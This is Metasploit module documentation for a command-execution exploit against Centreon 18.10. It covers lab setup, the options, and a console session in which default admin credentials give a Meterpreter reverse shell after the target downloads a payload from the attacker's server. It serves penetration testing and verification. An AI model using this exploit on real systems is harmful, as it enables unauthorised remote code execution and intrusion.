 ## Vulnerable Application

1. [Vendor site](https://download.centreon.com/)
2. [TheCyberGeek's walkthrough](https://thecybergeek.co.uk/cves/2019/09/19/CVEs.html)

### Creating A Testing Environment
Download either the OVA/OVF from https://download.centreon.com/ selecting appliances then version 18.10. 
Import OVF on virtual machine.

## Verification
Do:
1. use exploit/linux/http/centreon_cmd_exec
2. set RHOST target_ip
3. set LHOST your_ip
4. set TARGETURI /centreon
5. set USERNAME login_username
6. set PASSWORD login_password
7. exploit

## Options
Alternative options if needed.<br>
set HTTPDELAY 10<br>
The number of seconds the web server will wait before termination

set METHOD curl/wget<br>
The method used to download shell from target (default is curl)

## Scenario
For testing we use the default web credentials admin:centreon
```
root@TheCyberGeek:~/# msfconsole
msf5 > use exploit/linux/http/centreon_cmd_exec
msf5 exploit(linux/http/centreon_cmd_exec) >  set RHOST 192.168.0.47
msf5 exploit(linux/http/centreon_cmd_exec) >  set LHOST 192.168.0.12
msf5 exploit(linux/http/centreon_cmd_exec) >  set LPORT 4444
msf5 exploit(linux/http/centreon_cmd_exec) >  set TARGETURI /centreon
msf5 exploit(linux/http/centreon_cmd_exec) >  set USERNAME admin
msf5 exploit(linux/http/centreon_cmd_exec) >  set PASSWORD centreon
msf5 exploit(linux/http/centreon_cmd_exec) >  exploit
[ * ] Started reverse TCP handler on 192.168.0.12:4444
[ * ] Successfully got token 7aded091b8d304333bca634dc654fcb4
[ * ] Using URL: http://0.0.0.0:80/jtDFPIxG
[ * ] Local IP: http://192.168.0.12:80/jtDFPIxG
[ * ] Server started.
[ + ] 192.168.0.47:80 - Payload request received: /jtDFPIxG
[ * ] Sending Stage (985320 bytes) to 182.168.0.47
[ * ] Meterpreter session 3 opened (192.168.0.12:4444 -> 192.168.0.47:57338) at 2020-01-16 13:30:23 +0100
[ + ] timeout
[ * ] Server stopped. 
meterpreter > getuid
uid=48(apache) gid=48(apache) groups=48(apache),993(centreon-engine),994(centreon-broker),998(centreon),999(nagios)
```

